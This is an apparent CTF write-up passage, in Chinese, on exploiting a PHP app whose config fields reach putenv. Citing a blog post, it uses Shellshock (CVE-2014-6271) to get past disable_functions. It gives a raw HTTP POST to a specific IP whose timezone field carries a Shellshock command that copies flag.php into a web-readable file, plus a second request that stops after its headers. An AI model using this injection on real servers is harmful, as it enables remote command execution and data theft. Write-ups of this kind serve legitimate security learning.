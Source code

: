 所以我可以通过
```
config[root_path]=/var/www/html&config[send_mail]=hhhhh@qq.com&config[timezone]=xxxx
```

来控制`putenv`

想起以前看过p神的一篇blog: <https://www.leavesongs.com/PHP/php-bypass-disable-functions-by-CVE-2014-6271.html>

利用bash破壳漏洞

这就简单了

payload1: 
```
POST /options.php?action=save HTTP/1.1

Host: 106.75.106.156

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://106.75.106.156/options.php

Cookie: PHPSESSID=od8vs157dihd8m47o1fauhs232

Connection: keep-alive

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Content-Length: 145



config[root_path]=/var/www/html&config[send_mail]=hhhhh@qq.com&config[timezone]=() { x; }; cat flag.php >/var/www/html/upload/abcdef2.html 2>%261
```

payload2: 
```
POST /add.php?action=add HTTP/1.1

Host: 106.75.106.156

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://106.75.106.156/add.php

Cookie: PHPSESSID=od8vs157dihd8m47o1fauhs232

Connection: keep-alive

Upgrade-Insecure-Requests: 1
```
